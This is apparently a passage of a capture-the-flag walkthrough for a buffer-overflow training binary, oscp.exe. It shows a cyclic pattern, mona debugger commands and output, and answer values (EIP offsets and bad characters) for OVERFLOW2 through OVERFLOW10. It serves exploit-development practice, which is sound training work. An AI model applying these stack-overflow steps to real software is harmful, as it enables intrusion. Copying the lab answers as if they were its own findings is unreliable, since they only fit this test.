Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2B
```

`!mona findmsp -distance 1300`

```
0BADF00D   [+] Examining registers
0BADF00D       EIP contains normal pattern : 0x76413176 (offset 634)
```

`634`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW2?

`!mona bytearray -b "\x00"`

`!mona compare -f bytearray.bin -a 00E9FA18`

`\x00\x23\x3c\x83\xba`

## Task 4 oscp.exe - OVERFLOW3

Repeat the steps outlined in Task 2 but for the OVERFLOW3 command.

What is the EIP offset for OVERFLOW3?

`1274`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW3?

`\x00\x11\x40\x5f\xb8\xee`

## Task 5 oscp.exe - OVERFLOW4

Repeat the steps outlined in Task 2 but for the OVERFLOW4 command.

What is the EIP offset for OVERFLOW4?

`2026`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW4?

`\x00\xa9\xcd\xd4`

## Task 6 oscp.exe - OVERFLOW5

Repeat the steps outlined in Task 2 but for the OVERFLOW5 command.

What is the EIP offset for OVERFLOW5?

`314`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW5?

`\x00\x16\x2f\xf4\xfd`

## Task 7 oscp.exe - OVERFLOW6

Repeat the steps outlined in Task 2 but for the OVERFLOW6 command.

What is the EIP offset for OVERFLOW6?

`1034`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW6?

`\x00\x08\x2c\xad`

## Task 8 oscp.exe - OVERFLOW7

Repeat the steps outlined in Task 2 but for the OVERFLOW7 command.

What is the EIP offset for OVERFLOW7?

`1306`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW7?

`\x00\x8c\xae\xbe\xfb`

## Task 9 oscp.exe - OVERFLOW8

Repeat the steps outlined in Task 2 but for the OVERFLOW8 command.

What is the EIP offset for OVERFLOW8?

`1786`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW8?

`\x00\x1d\x2e\xc7\xee`

## Task 10 oscp.exe - OVERFLOW9

Repeat the steps outlined in Task 2 but for the OVERFLOW9 command.

What is the EIP offset for OVERFLOW9?

`1514`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW9?

`\x00\x04\x3e\x3f\xe1`

## Task 11 oscp.exe - OVERFLOW10

Repeat the steps outlined in Task 2 but for the OVERFLOW10 command.

What is the EIP offset for OVERFLOW10?

`537`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW10?

`\x00\xa0\xad\xbe\xde\xef`
